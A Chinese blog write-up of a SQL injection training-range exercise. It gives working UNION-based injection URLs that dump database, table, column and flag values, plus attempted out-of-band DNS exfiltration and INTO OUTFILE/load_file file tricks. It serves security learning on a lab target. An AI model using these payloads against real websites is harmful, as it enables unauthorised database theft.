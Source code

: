 ```yaml
---
layout: post
title: 掌控安全 SQL 注入靶场练习Pass2 - 单引号报错注入
categories: [安全, SQL注入]
description: sql 注入靶场练习 单引号报错注入
keywords: SQL注入, oob带外, dnslog
---
```


# 掌控安全 SQL 注入靶场练习Pass2 - 单引号报错注入

+ 课程目标 `https://hack.zkaq.cn/battle/target?id=695d4b6fe02d0bf3`

> **注意**, **误区** : 一定 **不要认为** 所有错误都会被反映到页面上， 程序会处理错误逻辑，并隐藏。


## 0x01. 判断注入点

### 引号探测

使用 `http://vulhub.example.com:81/Pass-02/index.php?id=1' and 1=1 --+`。 可以正常显示结果， 但 `1=2 --+` 不行。 

> 判断为 **单引号** 闭合。


### 错误姿势


```sql
-- 1. 语句错误, 测试了 `select 1 到 7`。 都没发现可以显示的注入点。 
http://vulhub.example.com:81/Pass-02/index.php?id=1' and select 1,2,3,4,5,6,7 --+ 
```
> 1. 首先`语句错误` ， 这里应该使用 **联合查询（UNION）** 确认注入点，而非 **AND**

```sql
-- 2. 联合查询判断条件错误, 显示结果不提示注入点
http://vulhub.example.com:81/Pass-02/index.php?id=1' union select 1,2,3 --+ 1
```
> 2. 使用联合查询后使用 `id=1'` 并不能确认 `select 1,2,3` 的注入点， 因为 **UNION 求并集** 依旧会显示正常查询结果。 如图 *select-union-condition-miss.png* 所示

![select-union-condition-miss.png](/images/post/2020/12/09/select-union-condition-miss.png)


### 正确姿势

```sql
-- 1. 正确判断, --+ 注释
http://vulhub.example.com:81/Pass-02/index.php?id=1' and 1=2 union select 1,2,3 --+ 1
```

```sql
-- 2. 正确判断, # 号注释。 urlcode %23  = #
http://vulhub.example.com:81/Pass-02/index.php?id=1' and 1=2 union select 1,2,3 %23+ 1
```

1. `id=1' and 1=2` : 闭合 **左单引号** ， 错误截断 。
2. `1=2 union select 1,2,3` : 尝试注入点
3. `--+ 1` 或 `%23+ 1` : 注释右单引号 。 

> **Notice** : `+` 将在 URL Code 中转为为 **空格 ` `**


## 0x02. 数据查找

找到了 **注入显示点** 之后， 剩下的就是是 **联合查询** 的问题了 ， 可以说的东西不多

### 0x02.1. 查询库名, 表名

由于有 **2 和 3** 两个可注入点， 因此在构造语句的时候，使用了 **2条自查询**

1. `select database()` : 查询当前库名
2. `select group_concat(table_name) from information_schema.tables where table_schema=database())` : 通过 `information_schema` 库查询当前所有表名。

```sql
-- dump dbname and tablename 
http://vulhub.example.com:81/Pass-02/index.php?id=1' and 1=2 union select 1, (select database()), (select group_concat(table_name) from information_schema.tables where table_schema=database()) --+ 1


-- dbname: error
-- tablenames: error_flag,user
```

### 0x02.2. 查询列名

```sql
--- dump column name
http://vulhub.example.com:81/Pass-02/index.php?id=1' and 1=2 union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='error_flag' --+ 1


-- columns: Id,flag
```

![dump-column-name.png](/images/post/2020/12/09/dump-column-name.png)

### 0x02.3. 查询 flag 所有字段值

```sql
--- dump flag values
http://vulhub.example.com:81/Pass-02/index.php?id=1' and 1=2 union select 1,2,(select group_concat(flag) from error_flag) --+ 1

-- flags: zKaQ-Nf,zKaQ-BJY,zKaQ-XiaoFang,zKaq-98K
```

### 0x03 提交

五个过关 Flag 中 应该只有一个是正确的， 所以需要轮训尝试。

> 第一关的时候我以为 5 个都可以用。 结果随机选择的时候，发现有错误， 还以为程序异常呢。



## 0x04 尝试方法

**1. 使用 OOB (out of band) 带外测试**

最开始在遇到 **注入显示点** 问题的时候， 本准备放弃查找显示点。 替换使用 **`OOB` 带外测试 - Dnslog 测试** 直接一把梭把所有数据全部提交到 `dnslog.cn` 上 。

然而意想不到的是， `dnslog 测试` 不可用， `load_file` 构造的请求无法成功。

**2. OOB 文件 测试法**

在查找 `load_file()` 函数使用过程中， 找到了以下 paper 。 使用 `INTO OUTFILE` 将结果存储到 目标目录。

> https://www.exploit-db.com/papers/14635

+ `select database`

```sql
--- select database
http://vulhub.example.com:81/Pass-02/index.php?id=1' union all select database() INTO OUTFILE '/tmp/1.txt' --+ 1

```

+ `select load_file`

```sql
--- select load_file
http://vulhub.example.com:81/Pass-02/index.php?id=1' and 1=2 union all select 1,2,(select load_file('/tmp/1.txt' )) --+ 1
```

然而失败了。 T_T 。

